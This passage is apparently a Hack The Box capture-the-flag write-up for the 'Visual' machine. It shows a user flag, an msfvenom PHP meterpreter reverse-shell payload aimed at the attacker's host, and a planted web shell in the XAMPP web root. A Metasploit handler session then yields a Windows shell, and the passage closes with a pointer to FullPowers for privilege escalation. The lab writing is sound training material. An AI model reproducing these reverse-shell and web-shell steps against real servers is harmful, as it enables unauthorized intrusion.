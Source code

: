 ```
type user.txt
59065825ff3c6a417ecaf08fde12c413

```

Now 
## Escalation
Our user has the ability to write to the C:\xampp\htdocs directory. Let's generate a shell, load it and catch it using the analogy above.
```
┌──(root㉿1337)-[/home/…/HacktheBox/Season/vs-rce/rce]
└─# msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.14.109 LPORT=1338 -f raw > exploit.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1113 bytes

```
Now go to my shell and do : `curl http://10.10.11.234/8a.php`
I send the exploit in the machine then i opened a listner
```
 Directory of C:\xampp\htdocs

10/03/2023  09:07 AM    <DIR>          .
10/03/2023  09:07 AM    <DIR>          ..
06/10/2023  10:32 AM    <DIR>          assets
06/10/2023  10:32 AM    <DIR>          css
10/03/2023  09:07 AM             1,113 hack.php
06/10/2023  06:20 PM             7,534 index.php
06/10/2023  10:32 AM    <DIR>          js
06/10/2023  04:17 PM             1,554 submit.php
10/03/2023  08:34 AM    <DIR>          uploads
06/10/2023  04:11 PM             4,970 vs_status.php
               4 File(s)         15,171 bytes
               6 Dir(s)   8,915,329,024 bytes free


```

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.109:1338 
[*] Sending stage (39927 bytes) to 10.10.11.234
[*] Meterpreter session 1 opened (10.10.14.109:1338 -> 10.10.11.234:49679) at 2023-10-03 12:08:23 -0400

meterpreter > 
meterpreter > sysinfo 
Computer    : VISUAL
OS          : Windows NT VISUAL 10.0 build 17763 (Windows Server 2019) AMD64
Meterpreter : php/windows
meterpreter > shell 
Process 1948 created.
Channel 0 created.
Microsoft Windows [Version 10.0.17763.4851]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs>


```
Download FullPowers.exe (https://github.com/itm4n/FullPowers) and extend privileges. 
